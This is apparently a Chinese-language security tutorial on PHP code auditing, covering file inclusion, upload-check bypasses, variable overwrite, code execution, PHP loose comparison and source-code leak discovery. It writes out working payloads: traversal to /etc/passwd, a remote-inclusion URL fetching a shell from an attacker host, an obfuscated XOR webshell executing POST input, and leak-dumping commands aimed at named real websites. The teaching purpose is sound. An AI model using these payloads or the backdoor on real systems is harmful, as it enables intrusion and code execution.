



# PHP 代碼審計

## 文件包含

常見的導致文件包含的函數有：

- PHP：`include()`，`include_once()`，`require()`，`require_once()`，`fopen()`，`readfile()` 等
- JSP Servlet：`ava.io.File()`，`java.io.FileReader()` 等
- ASP：`includefile`，`includevirtual` 等

當 PHP 包含一個文件時，會將該文件當做 PHP 代碼執行，而不會在意文件時什麼類型。

### 本地文件包含

本地文件包含，Local File Inclusion，LFI。

```php
<?php
$file = $_GET['file'];
if (file_exists('/home/wwwrun/'.$file.'.php')) {
  include '/home/wwwrun/'.$file.'.php';
}
?>
```

上述代碼存在本地文件包含，可用 %00 截斷的方式讀取 `/etc/passwd` 文件內容。

- `%00` 截斷

  ```
  ?file=../../../../../../../../../etc/passwd%00
  ```

  需要 `magic_quotes_gpc=off`，PHP 小於 5.3.4 有效。

- 路徑長度截斷

  ```
  ?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.
  ```

  Linux 需要文件名長於 4096，Windows 需要長於 256。

- 點號截斷

  ```
  ?file=../../../../../../../../../boot.ini/………[…]…………
  ```

  只適用 Windows，點號需要長於 256。

### 遠程文件包含

遠程文件包含，Remote File Inclusion，RFI。

```php
<?php
if ($route == "share") {
  require_once $basePath . "/action/m_share.php";
} elseif ($route == "sharelink") {
  require_once $basePath . "/action/m_sharelink.php";
}
```

構造變量 `basePath` 的值。

```
/?basePath=http://attacker/phpshell.txt?
```

最終的代碼執行了

```php
require_once "http://attacker/phpshell.txt?/action/m_share.php";
```

問號後的部分被解釋爲 URL 的 querystring，這也是一種「截斷」。

- 普通遠程文件包含

  ```
  ?file=[http|https|ftp]://example.com/shell.txt
  ```

  需要 `allow_url_fopen=On` 並且 `allow_url_include=On` 。

- 利用 PHP 流 input

  ```
  ?file=php://input
  ```

  需要 `allow_url_include=On` 。

- 利用 PHP 流 filter

  ```
  ?file=php://filter/convert.base64-encode/resource=index.php
  ```

  需要 `allow_url_include=On` 。

- 利用 data URIs

  ```
  ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=
  ```

  需要 `allow_url_include=On` 。

- 利用 XSS 執行

  ```
  ?file=http://127.0.0.1/path/xss.php?xss=phpcode
  ```

  需要 `allow_url_fopen=On`，`allow_url_include=On` 並且防火牆或者白名單不允許訪問外網時，先在同站點找一個 XSS 漏洞，包含這個頁面，就可以注入惡意代碼了。

## 文件上傳

文件上傳漏洞是指用戶上傳了一個可執行腳本文件，並通過此文件獲得了執行服器端命令的能力。在大多數情況下，文件上傳漏洞一般是指上傳 WEB 腳本能夠被服務器解析的問題，也就是所謂的 webshell 問題。完成這一攻擊需要這樣幾個條件，一是上傳的文件能夠被 WEB 容器執行，其次用戶能從 WEB 上訪問這個文件，最後，如果上傳的文件被安全檢查、格式化、圖片壓縮等功能改變了內容，則可能導致攻擊失敗。

### 繞過上傳檢查

- 前端檢查擴展名

  抓包繞過即可。

- `Content-Type` 檢測文件類型

  抓包修改 `Content-Type` 類型，使其符合白名單規則。

- 服務端添加後綴

  嘗試 `%00` 截斷。

- 服務端擴展名檢測

  利用解析漏洞。

- Apache 解析

  Apache 對後綴解析是從右向左的

  `phpshell.php.rar.rar.rar.rar` 因爲 Apache 不認識 `.rar` 這個文件類型，所以會一直遍歷後綴到 `.php`，然後認爲這是一個 PHP 文件。

- IIS 解析

  IIS 6 下當文件名爲 `abc.asp;xx.jpg` 時，會將其解析爲 `abc.asp`。

- PHP CGI 路徑解析

  當訪問 `http://www.a.com/path/test.jpg/notexist.php` 時，會將 `test.jpg` 當做 PHP 解析， `notexist.php` 是不存在的文件。此時 Nginx 的配置如下

  ```nginx
  location ~ \.php$ {
    root html;
    fastcgi_pass 127.0.0.1:9000;
    fastcgi_index index.php;
    fastcgi_param SCRIPT_FILENAME /scripts$fastcgi_script_name;
    include fastcgi_param;
  }
  ```

- 其他方式

  後綴大小寫、雙寫、特殊後綴如 `php5` 等，修改包內容的大小寫過 WAF 等。

## 變量覆蓋

### 全局變量覆蓋

變量如果未被初始化，且能夠被用戶所控制，那麼很可能會導致安全問題。

```ini
register_globals=ON
```

示例

```php
<?php
echo "Register_globals: " . (int)ini_get("register_globals") . "<br/>";

if ($auth) {
  echo "private!";
}
?>
```

當 `register_globals=ON` 時，提交 `test.php?auth=1`，`auth` 變量將自動得到賦值。

### `extract()` 變量覆蓋

`extract()` 函數能夠將變量從數組導入到當前的符號表，其定義爲

```
int extract ( array $var_array [, int $extract_type [, string $prefix ]] )
```

其中，第二個參數指定函數將變量導入符號表時的行爲，最常見的兩個值是 `EXTR_OVERWRITE` 和 `EXTR_SKIP`。

當值爲 `EXTR_OVERWRITE` 時，在將變量導入符號表的過程中，如果變量名發生衝突，則覆蓋所有變量；值爲 `EXTR_SKIP` 則表示跳過不覆蓋。若第二個參數未指定，則在默認情況下使用 `EXTR_OVERWRITE`。

```php
<?php
$auth = "0";
extract($_GET);

if ($auth == 1) {
  echo "private!";
} else {
  echo "public!";
}
?>
```

當 `extract()` 函數從用戶可以控制的數組中導出變量時，可能發生變量覆蓋。

### `import_request_variables` 變量覆蓋

```
bool import_request_variables (string $types [, string $prefix])
```

`import_request_variables` 將 GET、POST、Cookies 中的變量導入到全局，使用這個函數只用簡單地指定類型即可。

```php
<?php
$auth = "0";
import_request_variables("G");

if ($auth == 1) {
  echo "private!";
} else {
  echo "public!";
}
?>
```

`import_request_variables("G")` 指定導入 GET 請求中的變量，提交 `test.php?auth=1` 出現變量覆蓋。

### `parse_str()` 變量覆蓋

```
void parse_str ( string $str [, array &$arr ])
```

`parse_str()` 函數通常用於解析 URL 中的 querystring，但是當參數值可以被用戶控制時，很可能導致變量覆蓋。

```php
// var.php?var=new  變量覆蓋
$var = "init";
parse_str($_SERVER["QUERY_STRING"]);
print $var;
```

與 `parse_str()` 類似的函數還有 `mb_parse_str()`。

## 命令執行

### 直接執行代碼

PHP 中有不少可以直接執行代碼的函數。

```php
eval();
assert();
system();
exec();
shell_exec();
passthru();
escapeshellcmd();
pcntl_exec();
......
```

### `preg_replace()` 代碼執行

`preg_replace()` 的第一個參數如果存在 `/e` 模式修飾符，則允許代碼執行。

```php
<?php
$var = "<tag>phpinfo()</tag>";
preg_replace("/<tag>(.*?)<\/tag>/e", "addslashes(\\1)", $var);
?>
```

如果沒有 `/e` 修飾符，可以嘗試 %00 截斷。

### `preg_match` 代碼執行

`preg_match` 執行的是匹配正則表達式，如果匹配成功，則允許代碼執行。

```
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>40){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?>
```

這道題是 `xman` 訓練賽的時候，梅子酒師傅出的一道題。這一串代碼描述是這樣子，我們要繞過 `A-Z`、`a-z`、`0-9` 這些常規數字、字母字符串的傳參，將非字母、數字的字符經過各種變換，最後能構造出 `a-z` 中任意一個字符，並且字符串長度小於 `40` 。然後再利用 `PHP` 允許動態函數執行的特點，拼接出一個函數名，這裏我們是 `getFlag`，然後動態執行該代碼即可。

那麼，我們需要考慮的問題是如何通過各種變換，使得我們能夠去成功讀取到 `getFlag` 函數，然後拿到 `webshell` 。

在理解這個之前，我們首先需要大家瞭解的是 `PHP` 中異或 `^` 的概念。

我們先看一下下面這段代碼：

```
<?php
    echo "A"^"?";
?>
```

運行結果如下：



我們可以看到，輸出的結果是字符 `~`。之所以會得到這樣的結果，是因爲代碼中對字符 `A` 和字符 `?` 進行了異或操作。在 `PHP` 中，兩個變量進行異或時，先會將字符串轉換成 `ASCII` 值，再將 `ASCII` 值轉換成二進制再進行異或，異或完，又將結果從二進制轉換成了 `ASCII` 值，再將 `ASCII` 值轉換成字符串。異或操作有時也被用來交換兩個變量的值。

比如像上面這個例子

`A` 的 `ASCII` 值是 `65` ，對應的二進制值是 `01000001`

`?` 的ASCII值是 `63` ，對應的二進制值是 `00111111`

異或的二進制的值是 `‭01111110‬` ，對應的 `ASCII` 值是 `126` ，對應的字符串的值就是 `~` 了

我們都知道， `PHP` 是弱類型的語言，也就是說在 `PHP` 中我們可以不預先聲明變量的類型，而直接聲明一個變量並進行初始化或賦值操作。正是由於 `PHP` 弱類型的這個特點，我們對 `PHP` 的變量類型進行隱式的轉換，並利用這個特點進行一些非常規的操作。如將整型轉換成字符串型，將布爾型當作整型，或者將字符串當作函數來處理，下面我們來看一段代碼：

```
<?php
    function B(){
        echo "Hello Angel_Kitty";
    }
    $_++;
    $__= "?" ^ "}";
    $__();
?>
```

代碼執行結果如下：


我們一起來分析一下上面這段代碼：

1、`$_++; ` 這行代碼的意思是對變量名爲 `"_"` 的變量進行自增操作，在 `PHP` 中未定義的變量默認值 `null` ，`null==false==0` ，我們可以在不使用任何數字的情況下，通過對未定義變量的自增操作來得到一個數字。

2、`$__="?" ^ "}"; ` 對字符 `?` 和 `}` 進行異或運算，得到結果 `B` 賦給變量名爲 `__` (兩個下劃線)的變量

3、`$ __ (); ` 通過上面的賦值操作，變量 `$__` 的值爲 `B` ，所以這行可以看作是 `B()` ，在 `PHP` 中，這行代碼表示調用函數 `B` ，所以執行結果爲 `Hello Angel_Kitty` 。在 `PHP` 中，我們可以將字符串當作函數來處理。

看到這裏，相信大家如果再看到類似的 `PHP` 後門應該不會那麼迷惑了，你可以通過一句句的分析後門代碼來理解後門想實現的功能。

我們希望使用這種後門創建一些可以繞過檢測的並且對我們有用的字符串，如 `_POST` ， `system` ， `call_user_func_array `，或者是任何我們需要的東西。

下面是個非常簡單的非數字字母的 `PHP` 後門：

```
<?php
    @$_++; // $_ = 1
    $__=("#"^"|"); // $__ = _
    $__.=("."^"~"); // _P
    $__.=("/"^"`"); // _PO
    $__.=("|"^"/"); // _POS
    $__.=("{"^"/"); // _POST 
    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
```

在這裏我說明下， `.=` 是字符串的連接，具體參看 `PHP` 語法

我們甚至可以將上面的代碼合併爲一行，從而使程序的可讀性更差，代碼如下：

```
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
```

我們回到 `xman` 訓練賽的那題來看，我們的想法是通過構造異或來去繞過那串字符，那麼我們該如何構造這個字串使得長度小於 `40` 呢？

我們最終是要讀取到那個 `getFlag` 函數，我們需要構造一個 `_GET` 來去讀取這個函數，我們最終構造瞭如下字符串：


可能很多小夥伴看到這裏仍然無法理解這段字符串是如何構造的吧，我們就對這段字符串進行段分析。

#### 構造 `_GET` 讀取

首先我們得知道 `_GET` 由什麼異或而來的，經過我的嘗試與分析，我得出了下面的結論：

```
<?php
    echo "`{{{"^"?<>/";//_GET
?>
```

這段代碼一大坨是啥意思呢？因爲40個字符長度的限制，導致以前逐個字符異或拼接的webshell不能使用。  
這裏可以使用php中可以執行命令的反引號 `` ` `` 和 `Linux` 下面的通配符 `?`

- `?` 代表匹配一個字符
- `` ` 表示執行命令
- `" ` 對特殊字符串進行解析

由於 `?` 只能匹配一個字符，這種寫法的意思是循環調用，分別匹配。我們將其進行分解來看：

```
<?php
    echo "{"^"<";
?>
```

輸出結果爲：


```
<?php
    echo "{"^">";
?>
```

輸出結果爲：



```
<?php
    echo "{"^"/";
?>
```

輸出結果爲：


所以我們可以知道， `_GET` 就是這麼被構造出來的啦！

#### 獲取 `_GET` 參數

我們又該如何獲取 `_GET` 參數呢？咱們可以構造出如下字串：

```
<?php
    echo ${$_}[_](${$_}[__]);//$_GET[_]($_GET[__])
?>
```

根據前面構造的來看， `$_` 已經變成了 `_GET` 。順理成章的來講， `$_ = _GET` 。我們構建 `$_GET[__]` 是爲了要獲取參數值。

#### 傳入參數

此時我們只需要去調用 `getFlag` 函數獲取 `webshell` 就好了，構造如下：

```
<?php
    echo $_=getFlag;//getFlag
?>
```

所以把參數全部連接起來，就可以了。


結果如下：



於是我們就成功地讀取到了flag！

### 動態函數執行

用戶自定義的函數可以導致代碼執行。

```php
<?php
$dyn_func = $_GET["dyn_func"];
$argument = $_GET["argument"];
$dyn_func($argument);
?>
```

### 反引號命令執行

```php
<?php
echo `ls -al`;
?>
```

### Curly Syntax

PHP 的 Curly Syntax 也能導致代碼執行，它將執行花括號間的代碼，並將結果替換回去。

```php
<?php
$var = "aaabbbccc ${`ls`}";
?>
```

```php
<?php
$foobar = "phpinfo";
${"foobar"}();
?>
```

### 回調函數

很多函數都可以執行回調函數，當回調函數用戶可控時，將導致代碼執行。

```php
<?php
$evil_callback = $_GET["callback"];
$some_array = array(0,1,2,3);
$new_array = array_map($evil_callback, $some_array);
?>
```

攻擊 payload

```
http://www.a.com/index.php?callback=phpinfo
```

### 反序列化

如果 `unserialize()` 在執行時定義了 `__destruct()` 或 `__wakeup()` 函數，則有可能導致代碼執行。

```php
<?php
class Example {
  var $var = "";
  function __destruct() {
    eval($this->var);
  }
}
unserialize($_GET["saved_code"]);
?>
```

攻擊 payload

```
http://www.a.com/index.php?saved_code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}
```

## PHP 特性

### 數組

```php
<?php
$var = 1;
$var = array();
$var = "string";
?>
```

php 不會嚴格檢驗傳入的變量類型，也可以將變量自由的轉換類型。

比如在 `$a == $b` 的比較中

```php
$a = null; 
$b = false; //爲真 
$a = ''; 
$b = 0; //同樣爲真
```

然而，PHP 內核的開發者原本是想讓程序員藉由這種不需要聲明的體系，更加高效的開發，所以在幾乎所有內置函數以及基本結構中使用了很多鬆散的比較和轉換，防止程序中的變量因爲程序員的不規範而頻繁的報錯，然而這卻帶來了安全問題。

```php
0=='0' //true
0 == 'abcdefg' //true
0 === 'abcdefg' //false
1 == '1abcdef' //true
```

### 魔法 Hash

```php
"0e132456789"=="0e7124511451155" //true
"0e123456abc"=="0e1dddada" //false
"0e1abc"=="0"  //true
```

在進行比較運算時，如果遇到了 `0e\d+` 這種字符串，就會將這種字符串解析爲科學計數法。所以上面例子中 2 個數的值都是 0 因而就相等了。如果不滿足 `0e\d+` 這種模式就不會相等。

### 十六進制轉換

```php
"0x1e240"=="123456" //true
"0x1e240"==123456 //true
"0x1e240"=="1e240" //false
```

當其中的一個字符串是 `0x` 開頭的時候，PHP 會將此字符串解析成爲十進制然後再進行比較，`0x1240` 解析成爲十進制就是 123456，所以與 `int` 類型和 `string` 類型的 123456 比較都是相等。

### 類型轉換

常見的轉換主要就是 `int` 轉換爲 `string`，`string` 轉換爲 `int`。

`int` 轉 `string`

```php
$var = 5;
方式1：$item = (string)$var;
方式2：$item = strval($var);
```

`string` 轉 `int`：`intval()` 函數。

對於這個函數，可以先看 2 個例子。

```php
var_dump(intval('2')) //2
var_dump(intval('3abcd')) //3
var_dump(intval('abcd')) //0
```

說明 `intval()` 轉換的時候，會從字符串的開始進行轉換直到遇到一個非數字的字符。即使出現無法轉換的字符串， `intval()` 不會報錯而是返回 0。

同時，程序員在編程的時候也不應該使用如下的這段代碼：

```php
if(intval($a)>1000) {
 mysql_query("select * from news where id=".$a)
}
```

這個時候 `$a` 的值有可能是 `1002 union`。

### 內置函數的參數的鬆散性

內置函數的鬆散性說的是，調用函數時給函數傳遞函數無法接受的參數類型。解釋起來有點拗口，還是直接通過實際的例子來說明問題，下面會重點介紹幾個這種函數。

**md5()**

```php
$array1[] = array(
 "foo" => "bar",
 "bar" => "foo",
);
$array2 = array("foo", "bar", "hello", "world");
var_dump(md5($array1)==md5($array2)); //true
```

PHP 手冊中的 md5（）函數的描述是 `string md5 ( string $str [, bool $raw_output = false ] )`，`md5()` 中的需要是一個 string 類型的參數。但是當你傳遞一個 array 時，`md5()` 不會報錯，只是會無法正確地求出 array 的 md5 值，這樣就會導致任意 2 個 array 的 md5 值都會相等。

**strcmp()**

`strcmp()` 函數在 PHP 官方手冊中的描述是 `intstrcmp ( string $str1 ， string $str2 )`，需要給 `strcmp()` 傳遞 2 個 `string` 類型的參數。如果 `str1` 小於 `str2`，返回 -1，相等返回 0，否則返回 1。`strcmp()` 函數比較字符串的本質是將兩個變量轉換爲 ASCII，然後進行減法運算，然後根據運算結果來決定返回值。

如果傳入給出 `strcmp()` 的參數是數字呢？

```php
$array=[1,2,3];
var_dump(strcmp($array,'123')); //null,在某種意義上null也就是相當於false。
```

**switch()**

如果 `switch()` 是數字類型的 case 的判斷時，switch 會將其中的參數轉換爲 int 類型。如下：

```php
$i ="2abc";
switch ($i) {
case 0:
case 1:
case 2:
 echo "i is less than 3 but not negative";
 break;
case 3:
 echo "i is 3";
}
```

這個時候程序輸出的是 `i is less than 3 but not negative` ，是由於 `switch()` 函數將 `$i` 進行了類型轉換，轉換結果爲 2。

**in_array()**

在 PHP 手冊中， `in_array()` 函數的解釋是 `bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )` ,如果strict參數沒有提供，那麼 `in_array` 就會使用鬆散比較來判斷 `$needle` 是否在 `$haystack` 中。當 strict 的值爲 true 時， `in_array()` 會比較 needls 的類型和 haystack 中的類型是否相同。

```php
$array=[0,1,2,'3'];
var_dump(in_array('abc', $array)); //true
var_dump(in_array('1bc', $array)); //true
```

可以看到上面的情況返回的都是 true，因爲 `'abc'` 會轉換爲 0， `'1bc'` 轉換爲 1。

`array_search()` 與 `in_array()` 也是一樣的問題。

## 尋找源代碼備份

### hg 源碼泄露

`hg init` 時會產生 `.hg` 文件。

[利用工具 dvcs-ripper](https://github.com/kost/dvcs-ripper)

### Git 源碼泄露

`.git` 目錄內有代碼的變更記錄等文件，如果部署時該目錄下的文件可被訪問，可能會被利用來恢復源代碼。

```
/.git
/.git/HEAD
/.git/index
/.git/config
/.git/description
```

[GitHack](https://github.com/lijiejie/GitHack)

```shell
python GitHack.py http://www.openssl.org/.git/
```

[GitHacker（可恢復完整 Git 倉庫）](https://github.com/WangYihang/GitHacker)

```shell
python GitHacker.py http://www.openssl.org/.git/
```

### `.DS_Store` 文件泄露

Mac OS 中會包含有 `.DS_Store` 文件，包含文件名等信息。

[利用工具 ds\_store\_exp](https://github.com/lijiejie/ds_store_exp)

```shell
python ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store

hd.zj.qq.com/
└── themes
    └── galaxyw
        ├── app
        │   └── css
        │       └── style.min.css
        ├── cityData.min.js
        ├── images
        │   └── img
        │       ├── bg-hd.png
        │       ├── bg-item-activity.png
        │       ├── bg-masker-pop.png
        │       ├── btn-bm.png
        │       ├── btn-login-qq.png
        │       ├── btn-login-wx.png
        │       ├── ico-add-pic.png
        │       ├── ico-address.png
        │       ├── ico-bm.png
        │       ├── ico-duration-time.png
        │       ├── ico-pop-close.png
        │       ├── ico-right-top-delete.png
        │       ├── page-login-hd.png
        │       ├── pic-masker.png
        │       └── ticket-selected.png
        └── member
            ├── assets
            │   ├── css
            │   │   ├── ace-reset.css
            │   │   └── antd.css
            │   └── lib
            │       ├── cityData.min.js
            │       └── ueditor
            │           ├── index.html
            │           ├── lang
            │           │   └── zh-cn
            │           │       ├── images
            │           │       │   ├── copy.png
            │           │       │   ├── localimage.png
            │           │       │   ├── music.png
            │           │       │   └── upload.png
            │           │       └── zh-cn.js
            │           ├── php
            │           │   ├── action_crawler.php
            │           │   ├── action_list.php
            │           │   ├── action_upload.php
            │           │   ├── config.json
            │           │   ├── controller.php
            │           │   └── Uploader.class.php
            │           ├── ueditor.all.js
            │           ├── ueditor.all.min.js
            │           ├── ueditor.config.js
            │           ├── ueditor.parse.js
            │           └── ueditor.parse.min.js
            └── static
                ├── css
                │   └── page.css
                ├── img
                │   ├── bg-table-title.png
                │   ├── bg-tab-say.png
                │   ├── ico-black-disabled.png
                │   ├── ico-black-enabled.png
                │   ├── ico-coorption-person.png
                │   ├── ico-miss-person.png
                │   ├── ico-mr-person.png
                │   ├── ico-white-disabled.png
                │   └── ico-white-enabled.png
                └── scripts
                    ├── js
                    └── lib
                        └── jquery.min.js

21 directories, 48 files
```

### 網站備份文件

管理員備份網站文件後錯誤地將備份放在 Web 目錄下。

常見的後綴名：

```
.rar
.zip
.7z
.tar
.tar.gz
.bak
.txt
```

### SVN 泄露

敏感文件：

```
/.svn
/.svn/wc.db
/.svn/entries
```

[dvcs-ripper](https://github.com/kost/dvcs-ripper)

```shell
perl rip-svn.pl -v -u http://www.example.com/.svn/
```

[Seay - SVN](http://tools.40huo.cn/#!web.md#源碼泄露)

### WEB-INF / web.xml 泄露

WEB-INF 是 Java Web 應用的安全目錄，web.xml 中有文件的映射關係。

WEB-INF 主要包含以下文件或目錄：

- `/WEB-INF/web.xml` ：Web 應用程序配置文件，描述了 servlet 和其他的應用組件配置及命名規則。
- `/WEB-INF/classes/` ：包含站點所有用到的 class 文件，包括 servlet class 和非 servlet class，他們不能包含在 jar 文件中。
- `/WEB-INF/lib/` ：存放 web 應用需要的各種 JAR 文件，放置僅在這個應用中要求使用的 jar 文件，如數據庫驅動 jar 文件。
- `/WEB-INF/src/` ：源碼目錄，按照包名結構放置各個 java 文件。
- `/WEB-INF/database.properties` ：數據庫配置文件。

通過找到 web.xml 文件，推斷 class 文件的路徑，最後直接 class 文件，再通過反編譯 class 文件，得到網站源碼。 一般情況，jsp 引擎默認都是禁止訪問 WEB-INF 目錄的，Nginx 配合 Tomcat 做均衡負載或集羣等情況時，問題原因其實很簡單，Nginx 不會去考慮配置其他類型引擎（Nginx 不是 jsp 引擎）導致的安全問題而引入到自身的安全規範中來（這樣耦合性太高了），修改 Nginx 配置文件禁止訪問 WEB-INF 目錄就好了：

```nginx
location ~ ^/WEB-INF/* { deny all; } # 或者return 404; 或者其他！
```

### CVS 泄露

```
http://url/CVS/Root 返回根信息
http://url/CVS/Entries 返回所有文件的結構
```

取回源碼

```shell
bk clone http://url/name dir
```

### 參考文獻

- [記一次拿webshell踩過的坑(如何用PHP編寫一個不包含數字和字母的後門)](https://www.cnblogs.com/ECJTUACM-873284962/p/9433641.html)
